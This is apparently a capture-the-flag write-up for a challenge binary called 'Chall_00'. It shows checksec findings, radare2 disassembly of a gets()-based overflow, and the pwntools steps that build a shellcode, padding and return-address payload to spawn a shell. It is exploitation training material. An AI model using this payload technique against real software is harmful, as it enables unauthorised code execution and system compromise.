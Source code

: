 # Chall_00

## Solution

##### Disassembling

First we run ```checksec --file=a.out``` to see any vulnerabilities and see there is ```No canary found``` and ```NX disabled``` which means we can implant shellcode. 

Then we run ```r2 -Ad a.out``` to disassemble the file in debug mode and then enter ```s main``` to be taken to main and ```Vp``` to open visual.

```assembly
65: sym.vuln ();                                                                                                                 
│           ; var int64_t var_140h @ rbp-0x140                                                                                     
│           0x5624af44e189      f30f1efa       endbr64                                                                             
│           0x5624af44e18d      55             push rbp                                                                            
│           0x5624af44e18e      4889e5         mov rbp, rsp                                                                        
│           0x5624af44e191      4881ec400100.  sub rsp, 0x140                                                                      
│           0x5624af44e198      488d85c0feff.  lea rax, [var_140h]                                                                 
│           0x5624af44e19f      4889c6         mov rsi, rax                                                                        
│           0x5624af44e1a2      488d3d5f0e00.  lea rdi, str.Heres_a_leak_:___p_n    ; 0x5624af44f008 ; "Here's a leak :) %p\n"     
│           0x5624af44e1a9      b800000000     mov eax, 0                                                                          
│           0x5624af44e1ae      e8cdfeffff     call sym.imp.printf     ;[1] ; int printf(const char *format)                       
│           0x5624af44e1b3      488d85c0feff.  lea rax, [var_140h]                                                                 
│           0x5624af44e1ba      4889c7         mov rdi, rax                                                                        
│           0x5624af44e1bd      b800000000     mov eax, 0                                                                          
│           0x5624af44e1c2      e8c9feffff     call sym.imp.gets       ;[2] ; char *gets(char *s)                                  
│           0x5624af44e1c7      90             nop                                                                                 
│           0x5624af44e1c8      c9             leave                                                                               
└           0x5624af44e1c9      c3             ret  

37: int main (int argc, char **argv, char **envp);                                                                               
│           0x5624af44e1ca      f30f1efa       endbr64                                                                             
│           0x5624af44e1ce      55             push rbp                                                                            
│           0x5624af44e1cf      4889e5         mov rbp, rsp                                                                        
│           0x5624af44e1d2      488d3d470e00.  lea rdi, str.She_sellz_sea_shellz_by_the_return_address    ; 0x5624af44f020 ; "She 
│           0x5624af44e1d9      e892feffff     call sym.imp.puts       ;[3] ; int puts(const char *s)                              
│           0x5624af44e1de      b800000000     mov eax, 0                                                                          
│           0x5624af44e1e3      e8a1ffffff     call sym.vuln           ;[4]                                                        
│           0x5624af44e1e8      b800000000     mov eax, 0                                                                          
│           0x5624af44e1ed      5d             pop rbp                                                                             
└           0x5624af44e1ee      c3             ret                                                                                 
            0x5624af44e1ef      90             nop 
```

We notice that the space we're looking for is ```0x140``` which translates to ```320```
When we run the executable it gives us the leak address which is ```0x7fffdcbfafb0``` so since its a 64bit executable we can ```p64(int(0x7fffdcbfafb0))``` which gives us ```b'\xb0\xaf\xbf\xdc\xff\x7f\x00\x00'```. We can then tell our machine that the executable is 64bits with ```context.arch = "amd64"``` and then ```asm(shellcraft.amd64.sh())``` which gives us ```b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'```. We then check the length of the ```shellcraft``` with ```len(outputabove)``` to get ```48```. Now we can craft our payloard with ```payload = outputabove + b'a' * (320 + 8 -48) + p64(int(0x7fffdcbfafb0))```. Send it ```p.sendline(payload)``` and ```p.interactive``` to get shell. 
